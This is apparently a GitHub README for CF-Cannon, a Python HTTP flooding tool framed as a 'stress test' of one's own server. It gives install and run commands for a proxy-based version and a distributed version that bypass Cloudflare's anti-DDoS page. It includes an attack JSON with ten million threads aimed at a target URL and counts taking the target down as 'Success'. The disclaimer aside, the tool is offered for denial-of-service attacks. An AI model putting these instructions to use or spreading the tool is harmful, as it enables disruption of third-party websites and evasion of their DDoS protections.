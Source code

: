 [![LICENSE](https://img.shields.io/badge/license-Anti%20996-blue.svg)](https://github.com/996icu/996.ICU/blob/master/LICENSE)
# CF-Cannon
## CF-Cannon is a tool written in python to perform layer 7 stress test on your own server.
# ---------------------------------------------
https://levyhsu.com/2019/05/cf-cannon-v2/
# ---------------------------------------------
## V2 Version
### V2 version enables distributed attack on each nodes with penetration of Json protection page by Cloudflare and can be (theoretically) deployed on infinite machines.

### Install:
```bash
apt-get update
apt-get -y upgrade
apt-get install build-essential nodejs python-setuptools
apt-get install -y python-pip
pip install demjson Flask pycurl 
```

### Run (on each node):
```bash
python attack.py
```
Then use any third party API Tester:  (i.e https://apitester.com/)

Post a json request to path written in attack.py (Default: /attack)
```json
attackinfo={
	"T": 8,
	"charset": "utf-8",
	"is_protected_by_cf": false,
	"keywords": "welcome",
	"path": "/index.php",
	"peerCount": 300,
	"threadCount": 10000000,
	"url": "http://www.sample.com"
}
```
###  Note: Set "is_protected_by_cf" to be true only if you see following page:
![alt text](https://www.a2hosting.com/images/uploads/knowledgebase_images/kb-cloudflare-under-attack-interstitial-page.png)

After sending POST request, you’re suppose to see this:
![alt text](https://levyhsu.com/wp-content/uploads/2019/05/2.png)

Failed means your node have no access to target (keyword not found). It can be caused by:

- You have already take it down (Success)
- Wrong keyword on html page
- Your IP/Machine is on blacklist
- Any other reason that may cause your node have no access to this page

Success simply suggest target web page still functions normally

## Disclaimer: Please make sure all your tests are legal and with consent of relevant parties as I won't be responsible for any consequence caused by this script.

# ---------------------------------------------

## V1 Version(NO LONGER UPDATED)

For CF-bypass you'll need a proxy list with very good connection and low latency to your server.

*Third party proxy checker you may need:*
https://github.com/maxmalysh/python-proxy-checker

### Install:
```
apt-get update
apt-get -y upgrade
apt-get install build-essential nodejs python-setuptools python3-setuptools
apt-get install -y python3-pip
pip3 install PySocks requests cfscrape scapy-python3
```

### Run:
```
python3 cf_cannon.py www.sample-target.com -t 1000 -d /index.php
```

### Parameters:
```
-d --dir : path of target, I.e: www.abc.com/index.php then -d /index.php
-s --ssl : Use http or https. For https&proxy mode your proxy must support https.
-p --port: Port of the server,80 or 443?
-t --threads: How many threads?
-l --time: Haven't done yet
-x --proxy_file_location : Deafult: proxy.list, feel free to assign other list.
```
### Don't forget:
```
ulimit -n 655350
```
### Proof of Power
![image](https://levyhsu.com/wp-content/uploads/2018/10/webwxgetmsgimg.jpeg)

### Notice that:
Each "ERROR:root:’http://abc.com’ returned an error. Could not collect tokens." indicates one proxy failure (cfscrape can’t access page though server)

The effiecy through proxy is still low, if you have ieda or update, welcome to merge.
